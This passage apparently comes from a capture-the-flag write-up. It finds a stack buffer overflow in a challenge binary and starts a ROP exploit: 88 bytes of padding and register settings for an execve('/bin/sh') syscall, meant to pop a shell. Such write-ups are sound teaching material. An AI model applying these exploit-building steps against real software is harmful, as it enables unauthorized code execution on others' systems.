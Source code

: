 ```
       9:   00 03                   add    %al,(%ebx)
       b:   c3                      ret    
       c:   00 04 c3                add    %al,(%ebx,%eax,8)
       f:   00 05 c3 00 06 c3       add    %al,0xc30600c3
      15:   00 07                   add    %al,(%edi)
........ lots of gadgets ........
   2fffe:   ff c3                   inc    %ebx
```

# Vulnerability Identification

Now before I build my ropchain, I want to make sure I have a vulnerability to trigger the ropchain.  Again, using the symbols as a clue, I go straight to the `vuln` function.

<img src="https://i.imgur.com/Vk0flKA.png" class="img-responsive"/>

Here, we have a pretty obvious stack overflow.  Read is called, with a length of `0x100` and stored in a hard-coded location in `.bss`.  Then, memcpy is called to copy upto `0x100` bytes onto the stack, however, only `0x50` bytes are allocated on the stack for the destination of this memcpy.  So now we have our vulnerability!

# Solution (Exploit Development)
If you are not familiar with the [pwntools](https://github.com/Gallopsled/pwntools) library for Python, I highly recommend getting familiar with it.  It is incredibly helpful for building exploits for CTFs, and can also come in handy for non-pwn challenges, such as PPC or shellcoding challenges.

So first I start with building my payload.  We will need 0x58(88) bytes of padding, followed by our ROP chain.
```python
payload = ''
payload += 'A'*88
```

Ok, let's think about what we want our ROP chain to do.  The goal for most pwn challenges, is to pop a shell.  The easiest way is to somehow execute `execve`.  Let's take a look at the [Linux x64 Syscall chart](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).

```
%rax    System call     %rdi                    %rsi                        %rdx
59      sys_execve      const char *filename    const char *const argv[]    const char *const envp[]
```

So to get a shell, we want something like the following psuedo-code:
```python
rax = 59
rdi = '/bin/sh\x00'
rsi = '\x00\x00\x00\x00\x00\x00\x00\x00'
rdx = '\x00\x00\x00\x00\x00\x00\x00\x00'
```

So if we can setup the registers to match above, and then execute the `syscall` instruction, we should get a shell to play with!
